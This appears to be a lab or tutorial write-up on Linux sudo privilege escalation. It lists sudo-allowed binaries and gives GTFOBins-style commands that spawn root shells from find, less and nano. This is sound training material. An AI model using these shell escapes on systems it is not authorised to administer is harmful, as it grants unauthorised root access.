



# 🔐 Privilege Escalation: Sudo

This privilege escalation technique focuses on abusing commands that can be executed with `sudo` privileges without requiring a password.

We can identify these commands and search for exploitation methods using the GTFOBins website.

---

## 🔍 Checking Sudo Permissions

We start by listing commands that can be executed with `sudo`:

```bash
sudo -l
```


## 📌 Discovered Binaries

The system allows running the following binaries as root:

- `find`
- `less`
- `nano`

We can search for privilege escalation techniques for these binaries on:

https://gtfobins.linuxsec.org/

---

## 🚀 Exploiting `find`

GTFOBins provides the following command:

```bash
sudo find . -exec /bin/sh \; -quit
```

This command spawns a root shell.


---

## 🚀 Exploiting `less`

Run:

```bash
sudo less /etc/hosts
```


Inside `less`, execute:

```bash
!/bin/bash
```


Pressing Enter executes the command, spawning a root shell.


---

## 🚀 Exploiting `nano`

Run:

```bash
sudo nano
```


Inside nano:
- Press `CTRL + R`
- Then press `CTRL + X`

This opens the **Command to Execute** prompt.



Execute:

```bash
reset; sh 1>&0 2>&0
```


A root shell is spawned successfully.



